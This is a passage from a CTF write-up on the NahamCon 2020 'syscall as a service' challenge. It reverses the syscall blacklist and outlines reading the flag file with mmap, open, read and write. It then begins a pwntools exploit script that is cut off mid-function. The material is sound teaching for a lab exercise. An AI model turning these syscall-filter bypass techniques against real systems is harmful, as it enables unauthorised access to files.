 With everything set-up, we can begin working on the actual challenges!

# SaaS
> You've heard of software as a service, but have you heard of syscall as a service?
>
> Connect with:
>
> nc jh2i.com 50016 (Solves: 67, 100 pts)
>
> [saas](saas) [exploit.py](saas-exploit)

This challenge allowed us to run arbitrary syscalls, except for a list of blacklisted syscalls.

```
Welcome to syscall-as-a-service!

Enter rax (decimal): 0
Enter rdi (decimal): 0
Enter rsi (decimal): 0
Enter rdx (decimal): 0
Enter r10 (decimal): 0
Enter r9 (decimal): 0
Enter r8 (decimal): 0
Rax: 0x0
```

An important Binary Ninja HLIL note when reversing this binary is the importance of setting the right types for local variables. In the `blacklist` function, an array of 7 blacklisted syscalls are initalised in a stack int array. However, if we do not create this array in the function local variables, the HLIL will not display the value of these blacklisted syscalls. Here are the screenshots to show this behaviour.

![]({{site.baseurl}}/ctf/nahamcon20/SaaS/notype.jpg)
<center><b>Without</b> setting the type of <code class="highlighter-rouge">banned</code></center><br>

![]({{site.baseurl}}/ctf/nahamcon20/SaaS/type.jpg)
<center><b>With</b> setting the type of <code class="highlighter-rouge">banned</code></center>

The banned syscall numbers are shown in the screenshot and correspond to various syscalls that allow for executing programs (needed for popping a shell), like `execve` or `execveat`. We can simply ignore this and perform a `open`, `read`, `write` of the flag file, guessing the flag file name. `mmap` can be used to create a temporary buffer in memory that we can read and write to, as the binary has PIE enabled, so it's difficult for us to reuse existing RW- memory allocations.

The following annotated exploit code has more details.

{% highlight Python %}
import sys
from pwn import *

if args.REMOTE:
	r = remote("jh2i.com", 50016)
else:
	r = process("./saas")

def syscall(rax, rdi, rsi, rdx, r10, r9, r8, ret=False):
	r.sendlineafter("): ", str(rax))
	r.sendlineafter(": ", str(rdi))
	r.sendlineafter(": ", str(rsi))
	r.sendlineafter(": ", str(rdx))
	r.sendlineafter(": ", str(r10))
	r.sendlineafter(": ", str(r9))
	r.sendlineafter(": ", str(r8))
	if ret:
		r.recvuntil("Rax: ")